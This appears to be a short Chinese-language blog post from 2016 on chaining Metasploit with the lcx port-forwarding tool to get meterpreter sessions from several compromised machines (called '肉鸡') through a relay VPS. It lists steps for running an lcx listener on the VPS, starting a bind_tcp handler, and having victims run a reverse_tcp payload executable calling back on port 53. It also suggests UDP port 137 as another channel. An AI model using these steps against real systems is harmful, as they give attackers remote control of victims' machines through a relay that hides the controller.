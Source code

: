 ```yaml
---
layout:     post
title:      msf的两种内网间连接方式及多重转发
date:       2016-04-15
summary:    msf and lcx
categories: msf
tags:
 - web
 - msf
 - lcx
---
```


msf的两种内网间连接方式及多重转发   download:<a href="https://github.com/3xp10it/msf-lcx/raw/master/msf%26lcx/msf%E7%9A%84%E4%B8%A4%E7%A7%8D%E5%86%85%E7%BD%91%E9%97%B4%E8%BF%9E%E6%8E%A5%E6%96%B9%E5%BC%8F%E5%8F%8A%E5%A4%9A%E9%87%8D%E8%BD%AC%E5%8F%91.doc"> `here`</a>

#### update:2016-05-17 
<font color="red">实现meterpreter payload经过vps上lcx中转后的多个肉鸡上线</font>
<img src="https://raw.githubusercontent.com/3xp10it/pic/master/msf-1.png">

    step1-->vps:
            lcx -listen 300 53
    step2-->主控端pc:
            start msf
            start a listener,meterpreter/bind_tcp,rhost=vps's ip,lhost=300
    step3-->victim1:
            run 53.exe(a meterpreter/reverse_tcp payload exe,lhost=vps's ip,lport=53)

    !!!!!!till now!!!!!!:
        victim1 will connect back successfully,but if I want victim2 connect back successfully after upon actions,found it fail after victim2 run 53.exe

    !!!!!!solution!!!!!!:
    step4-->
        victim2:run53.exe
        主控端pc:start a listener again like before
        (after run 53.exe on victim2,start a listener again like before.)
    
#### update:2016-11-15

上面用到的53端口比较好用[53:dns]
tk的badtunnel中用的udp137端口可能更好用,待尝试
